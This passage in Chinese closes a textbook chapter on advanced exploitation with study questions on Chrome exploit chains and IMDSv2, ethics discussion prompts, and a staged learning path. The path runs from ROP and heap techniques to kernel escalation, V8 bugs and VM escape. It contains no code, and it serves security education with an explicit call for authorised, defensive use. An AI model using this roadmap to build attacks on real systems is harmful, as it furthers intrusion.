分析为什么 Chrome 的完整利用链需要至少两个漏洞（渲染器漏洞 + 沙箱逃逸漏洞）。Chrome 的多层安全架构具体包括哪些隔离机制？

**5. 云安全**
AWS EC2 的 IMDSv2 改进了元数据服务的安全性。请解释 IMDSv2 相比 IMDSv1 的安全改进，以及为什么这些改进能有效防御 SSRF 攻击。

### 讨论问题

**1. 漏洞利用的伦理边界**
漏洞利用技术的研究是否应受到限制？请从"防御研究""军备竞赛""漏洞市场"三个维度分析，提出你的观点。

**2. AI与漏洞利用的未来**
随着大语言模型能力的提升，未来的漏洞利用是否可能完全自动化？这将对网络安全生态产生什么影响？

**3. 防御技术的方向**
当前的防御机制（ASLR、CFI、MTE等）主要依赖"增加利用成本"的思路。你认为未来防御技术应该向什么方向发展？

### 实践路线建议

```text
阶段一（1-3月）：基础构建
├── 环境搭建：QEMU+GDB，pwntools熟练使用
├── 基础利用：栈溢出→ret2libc→简单ROP
├── 平台练习：pwnable.kr完成前20题
└── 理论学习：《Hacking: The Art of Exploitation》前半部分

阶段二（3-6月）：技术深化
├── 堆利用：fastbins UAF→tcache poison→house of系列
├── 内核入门：简单内核栈溢出提权（无保护→有KASLR）
├── 平台进阶：pwnable.tw完成kernel类题目
└── 工具深化：Ghidra逆向、ROPgadget高级用法

阶段三（6-12月）：高级攻防
├── 浏览器利用：V8类型混淆→OOB读写→利用链开发
├── 内核高级：SMEP/SMAP绕过→竞争条件利用
├── VM逃逸：QEMU设备漏洞分析与利用
└── CVE复现：Dirty COW、Dirty Pipe、近期CVE

阶段四（12月+）：研究导向
├── 漏洞挖掘：AFL++ fuzzing、补丁diff分析
├── 0day研究：目标特定软件/系统进行深度审计
├── 论文阅读：IEEE S&P、USENIX Security、CCS顶会论文
└── 社区参与：Bug Bounty、安全会议、开源安全项目
```

---

> **本章寄语**：高级漏洞利用技术是网络安全研究的巅峰领域，也是攻防对抗的核心战场。掌握这些技术不仅需要扎实的计算机科学基础——操作系统、编译原理、CPU微架构——更需要持之以恒的实践和持续更新的知识体系。记住：**理解防御是利用防御的前提，技术能力应服务于安全防御，而非恶意攻击。** 在合法授权范围内研究和实践这些技术，既是个人能力的体现，也是推动整个行业安全进步的力量。
